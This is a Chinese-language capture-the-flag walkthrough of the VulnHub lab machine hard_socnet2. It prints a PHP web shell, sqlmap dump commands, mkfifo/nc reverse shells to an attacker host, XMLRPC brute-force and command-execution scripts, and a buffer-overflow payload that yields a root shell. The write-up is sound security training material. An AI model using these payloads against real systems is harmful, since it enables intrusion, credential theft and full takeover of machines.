





> 靶机环境介绍
+ [hard_socnet2](https://www.vulnhub.com/entry/boredhackerblog-social-network-20,455/) 
+ 难度等级 <font color=red>高</font>

目标: 取得root权限

**所用技术栈：**
+ 主机发现
+ 端口扫描
+ SQL注入
+ 文件上传
+ 蚁剑上线
+ **XMLRPC命令执行**
+ 逆向工程
+ 动态调试
+ 漏洞利用代码编写

## 主机发现与信息收集
我们使用 `arp-scan` 来对内网进行目标主机的发现

发现主机 `10.0.2.8` 为我们要攻击的靶机

按照惯例我们要对目标靶机进行端口的扫描,并收集其服务版本信息：

我们发现该靶机开放了 `22,80,8000` 这三个端口,并收集到一些服务版本等信息，如我们知道`8000` 端口可能是开放在一个 python 服务端上的。目标靶机操作系统可能为 `Ubuntu`

所以我们需要先使用浏览器对所有开放的 `web` 端口进行一个试探性的访问。<br>
当我们访问其 8000 端口时发现其给我们返回服务端错误 `501` <font color='red' face=Monaco size=3>服务端不支持 get请求</font> 而我们知道默认对外开放的web服务一般都会接收 get 请求的。

这时候我们可以尝试使用 `burpsuit` 对网站进行 `OPTIONS`,`DELETE`,`POST`,`GET`,`PUT` 等一系列方式进行请求尝试,发现目标服务器始终给我们返回的是 `500` 一类的响应码报错.


> 到这边我们可以发现这个端口可能不接收外部主机的请求。

当一个端口不接收任何请求时，想要通过这个端口去突破主机无疑是非常困难。

这个时候我们可以去访问其 80 端口,我们发现了一个很典型的web登入界面
当看到这个界面我们还是按照之前的思路来操作：
+ 是否能够通过万能密码来登入？
+ 是否存在较弱的密码口令，从而可以使用密码的暴力破解来进行登入.


我们尝试完万能密码之后，发现并不能登入进去，而这个登入界面需要正确的邮箱，而且密码我们也完全不知道,所以通过暴力破解出密码的希望渺茫。



但是这个 web 界面还给我们提供了另一种功能，`Sign Up` 注册功能,既然不能直接登入到网站后台,那我们可以先注册一个账号，然后使用我们注册的账号登入到网站里。

> 因为网站内部的漏洞一般来讲会比外部多。

而且我们也没别的思路了，不是吗？ ：）


我们成功使用了一些伪造信息注册了账号，并成功登入进了网站

<font color='red' face=Monaco size=3>在护网比赛当中，我们最好不要使用自己真实的个人信息,因为真实信息可能会被蓝队发现并溯源</font>


我们先对网站进行一个基本的发现,我们看见有一个发帖功能，我们随便输入一段话，点击 <kbd> Post </kbd> 发现成功在网站上显示我们上传的这段话。


我们在下面还发现了 admin 发的一段话，当看到 admin 我们就知道这很有可能就是网站管理员发的这段话，我们在这段话了发现了一个重要的信息： <font color='red' face=Monaco size=3>他说他在他的网站里运行了一个监视程序： `monitor.py`</font> 说明目标靶机上有 python环境，再根据最开始我们扫描网站时也发现了 python 服务。我们更加确定网站上存在python环境,并运行了一个python服务


我们应该在这个网站上进一步发现更多有用的信息。
+ 我们可以发现这个网站上至少存在两个账户 : `admin admin` `testuser`

我们知道这个网站登入是需要邮箱的，那我们是不是能看看这两个账户发的帖子上是否透露了他们的邮箱。如果透露了的话，我们就能尝试一下暴力破解了。然而很遗憾，通过简单的信息收集我们并没有发现任何和邮箱有关的信息.

## 文件上传

当信息收集并没有获得实质性的进展时，我们应该对网站进行一定程度上的功能测试

<font color='red' face=Monaco size=3>对网站各个按钮，各个表单，各个图标。。。进行漏洞发现</font>

当我们回到自己主页时，我们发现了一个很重要的选项 `图片上传`

> 我们知道上传文件这个操作是有非常大的几率存在相关的安全隐患的。

因为我们上传的文件,可能会真实存放在目标主机的某个位置，如果我们目标主机没有对上传的文件做相关的检查，我们上传恶意代码上去，可能会获得shell


我们先尝试一下上传蚁剑的 shell 上去
+ [AntSword Shell Script](https://github.com/AntSwordProject/AwesomeScript) 
+ [Many Demo Shell Download](https://privdayz.com/)


```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```
似乎我们好像成功将蚁剑的shell上传上服务器了。


发现我们的头像还是没有发生改变，因为我们上传的并不是一个正常的图片格式。

我们右键点击复制图片地址，就能知道我们刚刚上传的文件到那个目录里去了。  


我们成功获得一个php文件的路径。当我们使用网站访问该路径时发现网站并没有给我们回显。
似乎我们的 web shell 成功被上传了。


我们使用蚁剑尝试连接一下我们上传的 web shell ,看看是否能成功连接

<font color='red' face=Monaco size=3>发现我们成功连接上去</font>


至此我们成功突破靶场的边界，拿到了网站的权限。




## SQL 注入

当我在打靶这台靶机时，我还发现了其它漏洞。
> 在网站最上面的搜索框里存在 SQL 注入漏洞

作为专业的渗透测试人员，当我们看见表单,输入框，搜索框时，我们会习惯于在里面输入一些特殊符号来进行尝试如： `'` `"` `...`

当我们输入 <kbd> ' </kbd> 进去之后，我们在网页上看到了报错信息，这时候我们就知道，该网站十有八九存在 SQL注入漏洞。

<font color='red' face=Monaco size=3>并且我们知道了目标服务器 数据库类型为Mysql</font>


这时候我们就能使用强大的 `Sqlmap` 来对网站的数据库进行渗透测试

我们先启动 `burpsuit` 重新获取刚刚输入 `'` 后的数据包   


然后将该数据包复制并保存到一个文件里。`req`

```shell
sqlmap -r req -p query
```
+ <kbd> -r </kbd> 指定请求包
+ <kbd> -p </kbd> 只对参数进行 SQL 注入的攻击


我们也已经知道目标数据库为 Mysql 所以我们也可以跳过别的数据库测试.


我们利用这个参数漏洞就能成功破解出来，所以我们可以跳过别的注入攻击

> 在实际的渗透测试中如果没用成功，可以尝试一下别的


经过一段时间后，我们成功对目标数据库进行了 SQL 注入


```bash
sqlmap -r req -p query --dbs

sqlmap -r req -p query -D socialnetwork --tables

sqlmap -r req -p query -D socialnetwork -T users --columns

sqlmap -r req -p query -D socialnetwork -T users -C user_password,user_email --dump

```

我们先使用以下命令来让sqlmap 去查询一下目标服务器数据库里有哪些数据库
```bash
sqlmap -r req -p query --dbs
```


我们发现了一个数据库名为 `socialnetwork` 而我们刚刚渗透的网站 ( 靶机 ) 也是这个名字  

> 很显然这个数据库就是存储网站相关信息的数据库。

我们先使用以下命令来让sqlmap 去查询一下指定数据库里有哪些表 

```bash
sqlmap -r req -p query -D socialnetwork --tables
```


我们可以使用一下命令来进一步获取对应表所有字段
```bash
sqlmap -r req -p query -D socialnetwork -T users --columns
```


最后我们可以将 用户名密码和邮箱（用户名）都 dump 下来
```bash
sqlmap -r req -p query -D socialnetwork -T users -C user_password,user_email --dump
```


但是 SQLmap 发现用户密码存储形式为哈希值,并询问我们是否对这些哈希值进行字典的暴力破解
我们选择是后，成功获得用户名和密码


可以看到最下面两个用户是我们自己创建的账号。    

而管理员账号密码为

```text
email : admin@localhost.com 
password: admin
```


我们使用刚刚暴力破解出来的账号和密码返回网页进行登入。


<font color='red' face=Monaco size=3>发现成功以管理员身份登入进去</font>


## 内核漏洞提权

我们先使用刚刚获得的 web shell 对目标靶机进行一个基本的信息收集： 如内核版本，操作系统发行版。。。


我们发现该操作系统为 `Ubuntu 18.04` 我们去网上寻找该版本是否存在漏洞，发现确实存在一个提权漏洞
+ [CVE-2021-3493 漏洞利用代码](https://github.com/briskets/CVE-2021-3493) 

而这个漏洞是在最近 也就是 2021 年才发现的，而这台靶机却是 2018 年就发布了，也就是说在当时并不知道这个漏洞,所以在这台靶机上一定还有另外的提权方式 ( 下面会介绍 )

我们先将这个 `exp` 文件下载下来,然后通过蚁剑的文件上传功能将文件上传到目标服务器上



经过上面的步骤我们成功将 `exploit.c` 传输到目标服务器上。


然后我们发现目标服务器上存在编译链接 C 程序的工具 `gcc`

我们对其进行编译链接，后赋予可执行权限，然后执行，发现成功获得 shell 但是成功后就直接退出了。

<font color='red' face=Monaco size=3>可能的原因就是 蚁剑的 shell 功能不完善，导致获取shell失败</font>


这时候我们再利用 nc 进行nc终端的获取

先查看一下 nc 版本，发现nc 并不支持 <kbd> -e </kbd> 参数


这次我们使用 `mkfifo` 管道的方式进行 nc shell 的创建

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.7 3333 >/tmp/f
```

因为我们知道系统里有 python 环境，我们可以使用 python 进一步加强我们所获得的shell的完整性

```python
python -c "import pty;pty.spawn('/bin/bash');"
```


这时候我们再运行刚刚编译 exp 获得的可执行程序发现成功利用版本内核漏洞提权


第一种方式提权成功 .

> 下面介绍如果你在 2018 年之前这个靶场应该如何提权 ：）

## XMLRPC 命令执行

回到提权那一步，如果我们没有一步提权成功的 exp 那么按照正常的操作步骤，我们应该先进行信息收集,这是主流提权的操作


我们先查看 `/etc/passwd` 里面的文件，查找出 具有 shell 登入权限的用户

```bash
cat /etc/passwd | grep /bin/bash
```
发现有两个用户一个是 `root` 另一个为 `socnet`

这时候我们就有理由怀疑这个网站就是在 `socnet`  用户下搭建的


我们先去查看一下，`socnet` 用户下是否存在家目录,发现确实存在 `socnet` 用户的家目录

我们进入到该目录里，发现有一下三个文件

> 我们在该目录里发现了一个比较敏感的文件 monitor.py


回想起之前在网站上，管理员说的这句话，我在服务器上运行了 `monitor.py` 这个程序来监视我们服务器

我们可以测试一下，看看服务器上是否真的运行了这个文件 <font color='red' face=Monaco size=3>发现服务器上真的存在这个进程</font>


我们查看一下 `monitor.py` 文件的内容,第一句话就说明我们突破点就在这边

> 他说这个脚本文件是他远程服务管理接口

<font color='red' face=Monaco size=3>那我们就可以想，我们是否能通过这个文件也来管理这台服务器呢?</font>

通过一个基本的代码审计,发现里面有一些关于系统的命令.还有一个函数能执行任何命令
`runcmd(cmd)` 而我们又看见文件导的几个包中，有一个是我不认识的 `SimpleXMLRPCServer`

<font color='red' face=Monaco size=3>在渗透测试过程中有一些脱离自己理解范围之外的东西，要尽可能弄清楚,要做到边渗透边学习.(RTFM/STFW)</font>


```python
#my remote server management API
import SimpleXMLRPCServer
import subprocess
import random

debugging_pass = random.randint(1000,9999)

def runcmd(cmd):
    results = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    output = results.stdout.read() + results.stderr.read()
    return output

def cpu():
    return runcmd("cat /proc/cpuinfo")

def mem():
    return runcmd("free -m")

def disk():
    return runcmd("df -h")

def net():
    return runcmd("ip a")

def secure_cmd(cmd,passcode):
    if passcode==debugging_pass:
         return runcmd(cmd)
    else:
        return "Wrong passcode."

server = SimpleXMLRPCServer.SimpleXMLRPCServer(("0.0.0.0", 8000))
server.register_function(cpu)
server.register_function(mem)
server.register_function(disk)
server.register_function(net)
server.register_function(secure_cmd)
server.serve_forever()
```

所以我们就可以去网上搜索一下关于 XMLRPC 相关的内容
+ [关于 python xmlprc 库的相关内容](https://docs.python.org/3/library/xmlrpc.server.html)
+ 什么是XMLRPC?


然后我们就发现可以通过远程的方式执行目标靶机上的命令

通过审计 我们可以编写一下 exp 来利用这个漏洞

我们知道要执行 `runcmd(cmd)` 这个函数，必须要能执行 `secure_cmd()` 函数，因为只有 `secure_cmd()` 被注册到了 XMLRPC 服务端上,而 `secure_cmd()` 函数要能运行还需要一个 passcode 而通过代码审计我们知道 这个 passcode 在 `1000 - 10000` 之间,这个数字并不是很大， <font color='red' face=Monaco size=3> 所以我们或许可以通过暴力破解的方式，来获取 passcode</font>

编写 `hack_pass.py` 如下来进行暴力破解 passcode
```python
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://10.0.2.8:8000/") as proxy:
	for i in range(1000,10000):
		if str(proxy.secure_cmd("ls",i)) != "Wrong passcode.":
			print("The passwd is {}".format(i))
		else:
			pass
	
```
发现成功破解出 passcode 为 5784


这时候我们就能通过编写脚本来让服务器以 socnet 用户的权限执行任何命令,我们当然能执行反弹shell的nc命令 :)

```python
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://10.0.2.8:8000/") as proxy:
    cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.7 4444 >/tmp/f"
    res = str(proxy.secure_cmd(cmd,5784))
    print(res)
```
在攻击机上监听对应端口后，运行以上代码后发现成功获得 socnet 用户的 shell


## 逆向工程

到这里之后，我尝试了各种方式来尝试提升自己为 root 权限,发现都没用

最后我只能把目光停留在和 monitor.py 同一目录下的 `add_record` 文件上


我们先用 file 查看一下该文件,发现该文件为可执行文件，并且似乎使用了 `setuid`,`setgid` 这个关于权限提升的操作,又根据查看该文件权限，发现该文件的属主为 root

> 到这边我就基本可以确定，root 提权的突破口就在这边了


我们先正常运行一下这个程序，发现是添加员工信息的一个程序


我们还知道这个目录下还有个 peda 文件，而 peda 是一个基于 python 的 gdb调试框架

所以我们有理由怀疑这个软件有一些漏洞，靶机作者希望我们通过调试的方式来找到它，这是我看见两个文件的直觉

> 与渗透测试一样，测试软件也是需要通过一些接收点来不断尝试不同的数据,来达到控制程序的操作

而这个程序的入口点有以下几个
+ Employee Name
+ Years worked
+ Salary
+ Explain 

### GDB 动态调试

```bash
gdb -q ./add_record
```

判断是否有缓冲区或者内存，栈溢出漏洞的一个方式就是输入大量字符，看程序是否异常终止


我们通过尝试，发现在最后一个入口点存在溢出漏洞，并且可以看到当我们向入口点输入大量 A 后，程序的 栈 <kbd> EIP </kbd> 等都被覆盖成 A


而我们知道 `EIP` 是控制程序执行指令的寄存器,当我们能控制 `EIP` 时我们就能控制程序了

<font color='red' face=Monaco size=3>所以我们要知道覆盖 `EIP` 的那几个 A 在我们刚刚输入一大串 A 中的那几个</font>,当我们知道是哪几个之后，是不是我们就可以构造出一个字符串，让 EIP 变成我们想要的结果


<font color='red' face=Monaco size=3>我们可以使用 peda 里面的 pattern 来达到我们的需求</font>

生成长度为 100 的匹配字符串
```gdb
pattern create 100
```
> <font color='red' face=Monaco size=3>pattern 字符串有这么一个特点:连续的每4个字符都不相同</font>

根据这个特点我们就能找到覆盖 EIP 寄存器那4个字符的位置了

我们可以使用 `pattern search` 命令来查看各个位置

<font color='red' face=Monaco size=3>我们可以发现 EIP 在字符的第 62 位处</font>

也就是说从第 63 位开始这4位将覆盖 EIP 的值


我们可以使用 `info func` 来查看这个程序所用到的所有函数
```gdb
info func

```

我们通过查看函数，发现了两个对我们渗透测试可能有帮助的函数
`backdoor` `vuln` 分别翻译过来为 后门，漏洞的简写


当我们使用 `disass backdoor` 来查看 backdoor 函数的汇编时
发现该函数调用了 `setuid` 和 `system` 这两个函数

所以我们可以让程序执行到这个函数来看看，这个函数到底执行了什么系统命令

<font color='red' face=Monaco size=3>因为我们可以随意修改 EIP 的值</font>

我们先记下这个函数的入口地址 ``


但因为系统中存储方式为小端序，（ 简单来讲就是内存实际存储和我们看到的是反着来的 ）

我们可以通过以下实验来进行验证,我们构造一个由62个 `A` 拼接上 `BCDE`这四个字符

<font color='red' face=Monaco size=3>62个 `A`  来占位,那么 `BCDE` 则将填入进 `EIP` 内</font> 


我们发现 `BCDE` 被成功填入到 `EIP` 内，可以证明我们之前的设想.

> 我们还发现它实际存储方式和我们看到的相反 `0x45444342` 即为 EDCB 的 ASCII 码对应的16 进制


<font color='red' face=Monaco size=3>所以我们要填充的地址也得反着进行填充。</font> 

所以我们可以使用以下方式来构造 `payload` 

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
由于 python 版本和 python 库版本的问题,我们使用struct.pack 返回出来的为 bytes 类型,并不能与直接与字符串相加,需要先转换成字符串类型再进行拼接
</div>

```python
import struct

backdoor_address = struct.pack('I', 0x08048676)
username = 'zh\n'
year = '1\n'
salary = '100\n'
condition = '1\n'
exp = username + year + salary + condition + 'A' * 62 + str(backdoor_address)
print(exp)
```
我们可以直接在本地环境将上面这个代码运行之后，对输出结果复制粘贴进目标靶机里
但是我们发现，最后 `backdoor` 函数地址转换之后为不可见字符

并且目标靶机上有 python 环境，所以我们可以将上面的代码转变成以下代码，方便复制粘贴进目标靶机内执行

```bash
python -c "import struct;print('zh\n1\n100\n1\n' + 'A'*62 + str(struct.pack('I',0x08048676)))"
```
但目标靶机的python版本比较老，所以我们还可以使用以下方式进行字符串拼接

```python
python -c "import struct;print('zh\n1\n100\n1\n' + 'A'*62 + struct.pack('I',0x08048676))"
```


当我们将这段payload 传输给程序时，程序创建了另外两个进程 `/bin/dash`
`/bin/bash`


既然我们知道当我们注入我们 payload 给程序之后程序一定会执行到 `backdoor` 函数，并且一定会在 `vuln` 函数之前，那我们就可以在 `vuln` 函数处下一个断点，逐步跟进，直到执行到 `backdoor` 函数，看看到底发生了什么


我们可以看见程序 `push eax` 后面就是执行 `system()` 这个库函数,在stack里我们可以看见 `eax` 的值为 `/bin/bash` 而 eax 默认会存储函数调用的参数

所以函数执行了 `system("/bin/bash");` 如果你不懂 `system();` 函数是干什么的，你可以 `man system` 来了解这个函数


```bash
cat payload - | add_record
```
发现成功获得一个 root 权限的 shell

我们还可以运行之前用于升级我们 shell 的命令 来进一步巩固我们获得的 root 权限的shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.7 3333 >/tmp/f
```


<font color='green' face=Monaco size=4>至此我们这台靶机就已经成功被渗透,并也取得 root 最高权限.</font>
